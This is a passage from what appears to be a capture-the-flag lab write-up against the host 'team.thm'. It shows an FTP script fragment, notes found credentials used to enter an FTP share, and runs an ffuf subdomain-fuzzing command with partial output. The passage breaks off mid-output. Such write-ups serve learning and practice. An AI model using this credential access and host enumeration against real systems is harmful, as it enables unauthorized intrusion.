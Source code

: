 ```
quote PASS $decrypt
cd $source_folder
!cd $dest_folder
mget -R *
quit
```

We got credentials, let's go into ftp:

![Pasted image 20250320153627.png](../../IMAGES/Pasted%20image%2020250320153627.png)

We got a `workshare` directory, this is what's inside of it:

![Pasted image 20250320153757.png](../../IMAGES/Pasted%20image%2020250320153757.png)

We got a `New_site.txt` file, let's read it:

![Pasted image 20250320154014.png](../../IMAGES/Pasted%20image%2020250320154014.png)


We got a lot of valuable info, let's try to fuzz for subdomains to check if this is true:

```
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://team.thm -H "Host: FUZZ.team.thm" -mc 200,301,302 -fs 11366 -t 100 -ic -c

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://team.thm
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
 :: Header           : Host: FUZZ.team.thm
 :: Follow redirects : false
```